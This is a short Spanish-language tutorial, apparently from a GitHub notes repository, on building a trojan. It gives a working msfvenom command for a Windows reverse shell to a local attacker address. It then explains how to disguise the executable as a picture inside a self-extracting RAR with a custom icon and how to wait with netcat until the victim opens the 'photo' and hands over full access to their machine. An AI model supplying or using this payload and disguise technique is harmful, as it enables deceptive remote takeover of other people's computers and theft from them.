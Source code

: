 # Creamos el payload (virus) en linux preferentemente
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f exe -o virus.exe
```

--------------------------------------

# Nos lo pasamos a windows para seguir trabajando ahi y lo guardamos en una carpeta junto con una imagen

---------------------------------------------

# Con esa imagen que queramos la transformamos a formato .ico 
# Hay paginas gratis en internet para hacer eso aca dejo una sino busca otra
 [Convertidor Imagen](https://imagen.online-convert.com/es/convertir-a-ico)

---------------------------

# Convertimos a rar seleccionando juntos el virus y la foto y (marcamos las siguientes casillas)

![examinar](https://github.com/sav404/Metasploit-notes/assets/169759579/08e7ee59-3455-4418-ae4d-05cd8c77c8cb)

-------------------------------------

# En la pestaña texto e iconos y examinamos en cargar icono desde fichero y elegimos la foto en formato .ico

![config](https://github.com/sav404/Metasploit-notes/assets/169759579/45910970-34fa-414c-a45a-0159ae673754)



# Se nos va a crear un archivo como este

![Captura de pantalla 2023-07-04 165159](https://github.com/sav404/Metasploit-notes/assets/169759579/0066de22-276e-469b-ba12-a32289eaa0a1)


# Nos ponemos en escucha con netcat en el puerto para recibir la señal en el momento que el objetivo abra la foto y obtendremos acceso total a su maquina. 

----
